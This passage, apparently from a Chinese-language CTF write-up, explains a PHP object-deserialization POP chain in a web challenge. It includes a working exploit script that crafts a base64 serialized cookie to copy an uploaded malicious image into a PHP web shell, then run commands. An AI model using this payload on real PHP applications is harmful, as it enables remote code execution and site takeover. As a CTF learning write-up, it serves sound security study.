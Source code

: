 从而返回`$this->except[$name]`即`Profile->except['index']`的值，那么如果我们在构造序列化内容时赋值`except['index']`为`upload_img`，当Register对象销毁时触发__destruct()时，即可成功触发upload_img()函数中的关键操作进行文件的复制和改名。

POP链如下：

```php
Register->__destruct()
Profile->__call()
Profile->__get()
Profile->upload_img()
```

exp如下：

```php
<?php
namespace app\web\controller;
class Profile {
    public $checker = 0;
    public $filename_tmp = "../public/upload/15fabb2a30e293533a1bcaf3f5e2743f/00bf23e130fa1e525e332ff03dae345d.png";
    public $filename = "../public/upload/15fabb2a30e293533a1bcaf3f5e2743f/3nd.php";
    public $upload_menu;
    public $ext = 1;
    public $img;
    public $except = array('index'=>'upload_img');

}
class Register {
    public $checker;
    public $registed = 0;
}
$x = new Register();
$x->checker = new Profile();
echo base64_encode(serialize($x));
```

攻击流程流程：上传含恶意代码的图片文件->复制图片地址，根据exp生成序列化数据->访问首页替换Cookie中的user字段触发函数生成3nd.php->访问3nd.php，getshell执行命令获取flag。

![](/assets/images/move/2019-08-13-22-58-21.png)
